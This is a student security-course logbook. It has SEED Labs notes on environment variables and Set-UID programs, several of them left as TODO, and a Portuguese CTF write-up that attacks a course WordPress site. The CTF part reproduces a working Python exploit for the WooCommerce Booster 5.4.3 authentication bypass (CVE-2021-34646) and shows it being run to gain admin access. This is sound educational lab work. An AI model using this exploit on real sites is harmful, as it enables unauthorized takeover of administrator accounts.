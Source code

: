 # Trabalho realizado na Semana #4

# SeedLabs Tasks

## Task 1 : Manipulating Environment Variables

<figure>
   <img src="images/logbook4/task1/printenv.png" alt="Usage of &quot;printenv&quot;" width="50%" />
   <figcaption><strong>Fig 1. </strong> Usage of &quot;printenv&quot;</figcaption>
</figure>

<figure>
   <img src="images/logbook4/task1/env.png" alt="Usage of &quot;env&quot;" width="50%" />
   <figcaption><strong>Fig 2. </strong> Usage of &quot;env&quot;</figcaption>
</figure>

<figure>
   <img src="images/logbook4/task1/export.png" alt="Usage of &quot;export&quot;" width="50%" />
   <figcaption><strong>Fig 3. </strong>Usage of &quot;export&quot;</figcaption>
</figure>

<figure>
   <img src="images/logbook4/task1/unset.png" alt="Usage of &quot;unset&quot;" width="50%" />
   <figcaption><strong>Fig 4. </strong>Usage of &quot;unset&quot;</figcaption>
</figure>

In this task we learn that:

- *printenv* and *env* are used to display the environment variables set in a machine.

- To search for a specific environment variable, we can use `printenv <ENV_VAR>` or `env | grep <ENV_VAR>`

- To add an environment variable we can use *export*, like `export <ENV_VAR>=<ENV_VAL>`

- To remove an environment variable we can use *unset*, like `unset <ENV_VAR>`

---

## Task 2 : Passing Environment Variables from Parent Process to Child Process

In the `Labsetup` folder, you'll find a file called `myprintenv.c`.

1. Compile the `myprintenv.c` file using `gcc myprintenv.c`.
2. Execute the program and save its output a file using `a.out > child_env`. 
3. Comment out the line marked with 1 and uncomment the line marked with 2.
4. Compile the program again using `gcc myprintenv.c`.
5. Execute the program and save its output to another file using `a.out > parent_env`.
6. Compare the two outputs using `diff parent_env child_env`.

No output is given in step 6, indicating that all environment variables are inherited with fork.

<figure>
   <img src="images/logbook4/task2/overview.png" alt="Overview of task 2" width="50%" />
   <figcaption><strong>Fig 5. </strong>Overview of task 2</figcaption>
</figure>

## Task 3 : Environment Variables and *execve()*

In the `Labsetup` folder, you'll find a file called `myenv.c`.
### Step 1



<figure width="50%">
   <img src="images/logbook4/environnull.png" alt="running environnull" width="50%" />
   <figcaption><strong>Fig 5. </strong>Running environ.c</figcaption>

</figure>

The program has no results, since it doesn't inherit any environment variable.

We can see why if we read *execve()* manpage. The function signature is:

```c
int execve(const char *pathname, char *const argv[],
                  char *const envp[]);
```

The string array *envp* is supposed to have the environment variables and, in this case, we pass *NULL* to it, so, no environment variables are inherited. 

### Step 2

<figure width="50%">
   <img src="images/logbook4/environ.png" alt="running environ" width="50%" />
   <figcaption><strong>Fig 6.</strong>Running environ.c</figcaption\>

</figure>

After adding the environment variables present in *environ* (environment variables array) in the function's parameter *envp*, the program now prints all the environment variables, similar to Task 2.

### Step 3

The new program gets its environment variables from the third argument of the *execve*'s function: The *environ* variable, which is essentially an array that contains all the environment variables.

---
## Task 4 : Environment Variables and system()

Using the *system* we have the same results, as expected, since, in reality, we are calling the function:

```c
execl("/bin/sh", "sh", "-c", "usr/bin/env", (char *) NULL);
```

Which will afterwards use the *execve* function and the results will be the same (all the environment variables will be printed)

---
## Task 5 : Environment Variable and Set-UID Programs

### Step 2

```bash
[10/02/22]seed@VM:~/.../Labsetup$ gcc newprog.c
[10/02/22]seed@VM:~/.../Labsetup$ sudo chown root a.out
[10/02/22]seed@VM:~/.../Labsetup$ ll a.out 
-rwxrwxr-x 1 root seed 16768 Oct  2 21:20 a.out
[10/02/22]seed@VM:~/.../Labsetup$ sudo chmod 4755 a.out 
[10/02/22]seed@VM:~/.../Labsetup$ ll a.out 
-rwsr-xr-x 1 root seed 16768 Oct  2 21:20 a.out
```

### Step 3

<TODO>

---
## Task 6 : The PATH Environment Variable and Set-UID Programs

<TODO>

---
## Task 7 : The LD PRELOAD Environment Variable and Set-UID Programs

<TODO>

---

# CTF

## Challenge 1

O desafio 1 consiste em descobrir o CVE presente no website disponibilizado que permite adquirir

### Recon

Nota: Todo este processo poderia ter sido automatizado usando uma ferramenta como o [wpscan](https://wpscan.com/), contudo optamos por uma abordagem manual.

Na fase de recon, começamos por verificar as tecnologias utilizadas no site:

#### Step 1 - Descobrir as tecnologias utilizadas

```bash
❯ whatweb http://ctf-fsi.fe.up.pt:5001
http://ctf-fsi.fe.up.pt:5001/ [200 OK] Apache[2.4.54], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.54 (Debian)], IP[10.227.243.188], JQuery[3.6.0], MetaGenerator[WooCommerce 5.7.1,WordPress 5.8.1], PHP[8.0.23], Script[application/ld+json,text/javascript], Title[Secure WP Hosting &#8211; Military-grade secure hosting], UncommonHeaders[link], WordPress[5.8.1], X-Powered-By[PHP/8.0.23]
```

Sabemos agora que o website usa `wordpress` para o hosting, tal como podemos ver na homepage do mesmo.

#### Step 2 - Enumerar as versões utilizadas

Começamos por enumerar a versão do wordpress, acedendo ao endpoint [http://ctf-fsi.fe.up.pt:5001/comments/feed/](http://ctf-fsi.fe.up.pt:5001/comments/feed/), no qual descobrimos que a versão utilizada é a `5.8.1`.

Para enumerar os plugins vimos as stylesheets e os scripts utilizados e descobrimos uma stylesheet com o nome `woocommerce.css`. Como [Woocommerce](https://wordpress.org/plugins/woocommerce/) é um plugin conhecido de Wordpress, fomos pesquisar um pouco sobre ele e descobrimos que neste website está a ser usado o package [Wordpress Booster](http://ctf-fsi.fe.up.pt:5001/wp-content/plugins/woocommerce-jetpack/readme.txt) na versão `5.4.3`.

Pesquisando esta versão descobrimos que era vulnerável ao [CVE-2021-34646](https://nvd.nist.gov/vuln/detail/CVE-2021-34646).

```bash
❯ searchsploit WooCommerce Booster  5.4.3
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass                                        | php/webapps/50299.py
----------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Este CVE permite dar Bypass à autenticação, sem permissões para o fazer, adequando-se então à descrição da challenge e sendo a flag: `flag{CVE-2021-34646}`

#### Step 3 - Enumerar os users existentes

Para enumerar os users existentes podemos aceder ao enpoint [ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/?per_page=100&page=1](ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/?per_page=100&page=1), no qual descobrimos, entre outras informações, a existência do user `admin`.

Ao descobrir isto tentamos imediatamente aceder ao `wp-admin` e testar as credenciais default `admin:admin`, mas neste caso, sem resultado.  

## CTF - Desafio 2

### Exploitation

Após sabermos que conseguiamos dar bypass à autenticação com este exploit e a existência do user `admin`, trata-se de uma questão de alterar o exploit e corrê-lo na instầncia do website:

#### Step 1 - Correr o Exploit

O exploit existente é:

```python
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()



for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```

Após lermos o exploit e termos uma ideia de como funciona, percebemos que para corrê-lo basta passar os argumentos `url` e `id` (id do user admin, encontrado na fase de enumeração [1])

```bash
❯ python /usr/share/exploitdb/exploits/php/webapps/50299.py http://ctf-fsi.fe.up.pt:5001/ 1
Timestamp: Sun, 02 Oct 2022 18:14:05 GMT
Timestamp (unix): 1664734445

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash 4f2b6aac39e69113227cda21f4d56b54:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNGYyYjZhYWMzOWU2OTExMzIyN2NkYTIxZjRkNTZiNTQifQ
```

#### Step 2 - Aceder ao url resultante do script

Após aceder ao url resultante do script obtemos acesso de admin

<figure width="50%">
   <img src="images/logbook4/auth_bypass.png" alt="Admin Dashboard" width="50%" />
   <figcaption><strong>Fig 1.</strong> Admin Authentication Bypass</figcaption>

</figure>

### Step 3 - Aceder ao endpoint da flag

De seguida, precisamos apenas de aceder ao endereço fornecido no moodle (http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php) para ver os posts feitos pelo admin e abrir o post privado "Message to our employees", do qual podemos obter a flag: `flag{please don't bother me}`.
